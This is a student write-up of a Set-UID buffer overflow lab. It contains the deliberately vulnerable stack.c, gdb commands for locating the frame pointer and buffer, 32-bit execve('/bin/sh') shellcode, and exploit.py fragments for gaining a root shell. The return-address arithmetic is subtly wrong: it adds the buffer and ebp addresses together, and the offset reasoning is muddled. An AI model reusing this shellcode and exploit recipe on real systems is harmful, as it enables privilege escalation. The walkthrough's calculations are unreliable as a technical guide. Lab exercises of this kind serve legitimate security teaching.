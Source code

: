 # Buffer Overflow Attack Lab (Set-UID Version)

## Task 1
On the terminal, after running the a32.out or the a64.out files, a shell is generated. Initially this shell is placed inside the folder that contains those same files and allows us to write any shellcode and execute it.

## Task 2
We are supposed to run an exploit in the given C file:

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

The file has a buffer overflow vunerability in the strcpy command because the function doesn't check for boundaries, that means that if the program is a root owned set-UID file we can feed the function a string that makes it spawn a root shell

For this to be exploitable it is needed for the OS safeguards be turned off and for the the code to be compiled with the following flags 

-z execstack -fno-stack-protector

## Task 3

First we need to find the address of where our program is running in the memory. In order to do that we have to compile the program on debug mode (-g option). When debugging we will be able to find the ebp and offset so we can have the right buffer payload to run our program. 

Running our program in debug mode:
`gdb stack-L1-dbg`

Then we set a breakpoint on bof and then run the program:

`b bof`
output: Breakpoint 1 at 0x12ad: file stack.c, line 16.

`run`
The program stops when hits the bof function because of the breakpoint that we created. The values of the stack frame for this function will be used on the badfile. 

`p $ebp`
output: $1 = (void *) 0xffffcfb8

`p &buffer`
output: $2 = (char (*)[100]) 0xffffcb3c

As we can see, the frame pointer is on 0xffffcfb8, so the return address must be stores at 0xffffcfb8+4, then the first address we can jump is 0xffffcfb8+8. 
We need to know where we should store the return address in the input in order for it to be stored in the return address filed in the slack. We can find that just by doing the diference between return and buffer start address.
`p/d 0xffffcfb8 - 0xffffcb3c`
output: $3 = 1148

As we can see the distance between the return address and the start buffer is 1148+4 so the return address must be storires with offset of 1152 in badfile.

**We now have to edit the file exploit.py to fill the content for badfile.** 

**We used a 32 bit shellcode:**

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

**we know that our string size is 517, so we should start at 517 minus the lenght of our shellcode**

start = 517-len(shellcode)   

**The content should be the shellcode itself**

content[start: start+len(shellcode)] = shellcode

**The return adress is given by the buffer and the ebp:**

buff =  0xffffcb3c

ebp =   0xffffcfb8

offset = ebp - buff + 4

ret = buff + ebp + 200

By compiling and executing our program exploit.py, we will generate the badfile content. 
After running our program` ./stack` we shoud be able to gain control as a root, that is, a shell prompt will be available. 

